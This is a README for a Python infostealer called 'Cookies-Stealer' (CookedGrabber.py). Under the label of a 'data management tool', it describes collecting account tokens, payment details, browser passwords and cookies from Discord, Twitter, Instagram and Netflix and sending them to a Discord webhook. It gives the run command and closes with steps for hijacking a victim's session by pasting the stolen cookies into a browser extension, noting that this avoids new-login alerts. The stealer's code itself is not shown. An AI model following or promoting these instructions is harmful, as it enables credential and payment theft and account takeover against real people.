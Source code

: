 # Cookies-Stealer
Introducing my data management tool made in Python that efficiently collects user information from popular websites like Discord, Twitter, Instagram, and Netflix.
This versatile tool extracts valuable data, including account tokens, payment details, and browser passwords. It organizes the information neatly into tables and sends it to a Discord webhook for easy management. While showcasing Python's automation capabilities, it's crucial to use my tool responsibly and adhere to ethical programming practices.
# Requirements ⚡
Windows 10 OS only (win32, for x86, x86_64, and arm64 architectures)
Python 3.x (python 3.9 used for the project.)
Modules: $ pip install -r requirements.txt
# How to use ? ❄
You can also run the program by giving several arguments (the webhook(s) link(s)):

py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
🍪Cookies
# What are cookies ?
Cookies are text files with small pieces of data like a username and password that are used to identify your computer as you use a computer network. Specific cookies known as HTTP cookies are used to identify specific users and improve your web browsing experience.

Data stored in a cookie is created by the server upon your connection. This data is labeled with an ID unique to you and your computer.

When the cookie is exchanged between your computer and the network server, the server reads the ID and knows what information to specifically serve to you.

# What are cookies used for ?
Websites use HTTP cookies to streamline your web experiences. Without cookies, you’d have to login again after you leave a site or rebuild your shopping cart if you accidentally close the page. Making cookies an important a part of the internet experience.

# Security breach with cookies
Since the data in cookies doesn't change, cookies themselves aren't harmful. They can't infect computers with viruses or other malware. However, some cyberattacks can hijack cookies and enable access to your browsing sessions.

The server only sends the cookie when it wants the web browser to save it. If you’re wondering “where are cookies stored,” it’s simple: your web browser will store it locally to remember the “name-value pair” that identifies you.

⚠ When you try to connect to an account using cookies it does not even generate a new login request to the server, that mean that the victim does not even receive the email with a new connexion detected. The target don't know that you are connected to the account because the server think it's him !

☢ This reveals major security breaches in general websites and social networks ! ☢

# How to bypass websites with cookies ?
So to use cookies to log into the victim account, you must have a cookies extension. I recommand Cookie-Editor. To bypass website security you must be already connected to your personnal account to generate all cookies needed for the website. After being sure that all default cookies have been generated use your cookies extension to replace your personnal id account cookies with the grabbed victim account cookies.
